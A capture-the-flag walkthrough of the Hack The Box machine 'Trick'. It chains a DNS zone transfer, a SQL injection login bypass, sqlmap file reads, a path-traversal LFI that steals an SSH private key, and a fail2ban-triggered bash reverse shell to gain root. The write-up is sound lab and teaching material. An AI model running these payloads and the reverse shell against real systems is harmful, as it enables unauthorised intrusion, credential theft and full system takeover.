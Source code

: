 # HTB - Trick 

## Summary

This was a fun box. The web exploitation involves using a DNS Zone Transfer to find a subdomain. From that subdomain, we can do a sql injection to find another subdomain. This second subdomain is vulnerable to a LFI, which enables us to pull back a user's private ssh key. The privlege escalation involves changing a ssh banning script which runs as root to execute a reverse shell as root.

## DNS Reverse Lookup

A forward DNS lookup is when you query the DNS server for an ip address by giving it a hostname  
A reverse DNS lookup is when you query the DNS server for a hostname given an ip address  
We can do this with nslookup:  
`nslookup`  
`> server 10.10.11.166`  
10.10.11.166 is the ip address of the target box. We saw it was running a dns server on port tcp/53  
`> 10.10.11.166`

The result of this is the hostname of the server trick.htb  
**Note:** Remember our nmap scan only scans tcp ports by default. So, although we can only see tcp/53 open, udp/53 is also likely open  
DNS uses TCP port 53 for zone transfers, for maintaining coherence between the DNS database and the server  
UDP port 53 is used when a client sends a query to the DNS server  

We can also (and probably should) use `dig` to do the reverse lookup  
The @ is followed by the DNS server to use, the -x specifies we want to do a reverse lookup  
`dig @10.10.11.166 -x 10.10.11.166`  
This will give us a similar, but more detailed result than nslookup  

## DNS Zone Transfer

DNS zone transfer is a type of DNS transaction  
Its one of the many mechanisms available for administrators to replicate DNS databases across a set of DNS servers  
We can request a zone transfer from the DNS server using dig:  
`dig @ 10.10.11.166 axfr trick.htb` where trick.htb is the top level domain name  
The result, shows us that preprod-payroll.trick.htb is a CNAME record  
A CNAME, or Canonical Name record is a type of DNS record that maps an alias name to a true or canonical domain name
CNAME records are typically used to map a subdomain such as www or mail to the domain hosting that subdomains content  
So basically, we have found a subdomain  
We add trick.htb and preprod-payroll.trick.htb to our /etc/hosts file:  
`10.10.11.166 trick.htb preprod-payroll.trick.htb`  

## Web Exploitation

The login page at preprod-payroll.trick.htb is vulnerable to a very basic SQL Injection  
If we just type `admin' or 1=1-- -` in the Username field, we are able to login  

We will use SQLMap on the login HTTP request, to see what options we have  
To do this, intercept a legit login attempt (like admin/password) with BurpSuite, and send the request to a file login.req  
Then, `sqlmap -r login.req --batch`  
batch means don't ask for user input, just use the default option for all questions  

The result is a "time-based blind", which is not ideal because it means we will have to wait a long time to get any data  

We can instead run:  
`sqlmap -r login.req --batch --technique=BEU --risk 3 --level 5`  

B, E, and U all stand for something, T, which stands for time based is excluded in this case. `man sqlmap` to learn more. The default --technique value includes it. We also need to elevate the risk levels for it to find more types of attacks.  

With this new query, sqlmap finds a boolean-based blind and an error-based blind, which is better for us  

Now, we can run the same sqlmap command, but this time with the `--privilege` flag, to determine see what priviliges we can have  

We see we have the "FILE" privilege. This means we can read files off the filesystem  

From this, we can read the nginx configuration file with:  

`sqlmap -r login.req --batch --technique=BEU --risk 3 --level 5 --privilege --file-read=/etc/nginx/sites-enabled/default`  

From the file we get as a result, we can see there is another, previously unknown nginx site running, preprod-marketing.trick.htb  
We can add this to `/etc/hosts` now

Clicking around preprod-marketing, we see that there is LFI in the url. Ie: `index.php?page=services.html`  

After some trial and error in BurpSuite, we find that the needed syntax to get arbitrary LFI in this case is `....//....//....//`  

Using this, we can put:  
`index.php?page=....//....//....//home/michael/.ssh/id_rsa`  
in burp suite or in the browser, and get back michael's ssh key

We can copy the key to a file, making sure to include an extra newline at the end, chmod 600 the file, and then ssh -i to get ssh access as michael.  

## Privlege Escalation

Here is a nice trick:  
`find / -user michael 2>/dev/null | less`  
Then, when a ton of stuff comes up, and you get the colon, type &! to exclude things from the view. So you can exclude /var /sys /proc etc...  

Unfortunately, michael doesn't own any interesting files  

Using the `groups` command, we can see what groups michael is a part of. He is a part of the "security" group. We can rerun the find command with `-group` security to find the places that group has accesses  

From this, we find the `/etc/fail2ban/action.d` directory which contains a bunch of stuff  

Everything in the directory is owned by root, but because we have rwx on the directory, we can mv and delete files.  

First, create a reverse shell `/dev/shm/shell.sh` with the contents:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.7/8686 0>&1
```
And test run it as michael with a netcat listener on 8686 to verify it works as michael.  
Now we can worry about getting root to execute this rev shell.  

We will do this by editing the "actionban" action in `iptables-multiport.conf` to call `/dev/shm/shell.sh` instead of its intended action, and then getting michael banned by failing a bunch of ssh logon attempts, to get the script to be called  

It ended up being a big pain to get the thing to ban me, had to download a tool called `crackmapexec` and run:  
`crackmapexec ssh trick.htb -u oxdf -p /usr/share/wordlists/fasttrack.txt`  
to get enough attempts instantly to get banned. Once I got banned, the root shell connected back to the nc listner
